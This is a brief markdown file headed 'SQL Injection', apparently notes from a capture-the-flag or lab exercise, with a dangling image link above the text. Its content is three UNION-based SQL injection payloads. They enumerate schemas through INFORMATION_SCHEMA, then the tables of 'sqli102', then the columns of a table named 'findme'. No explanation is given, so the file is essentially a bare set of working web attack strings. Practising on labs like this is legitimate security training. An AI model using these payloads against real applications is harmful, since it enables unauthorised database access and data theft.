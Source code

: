 # SQL Injection


Feeling%' UNION SELECT '',SCHEMA_NAME,'','','','','','' FROM INFORMATION_SCHEMA.SCHEMATA #
Feeling%' UNION SELECT '',TABLE_NAME,'','','','','','' FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='sqli102' #
Feeling%' UNION SELECT '',COLUMN_NAME,'','','','','','' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='findme' #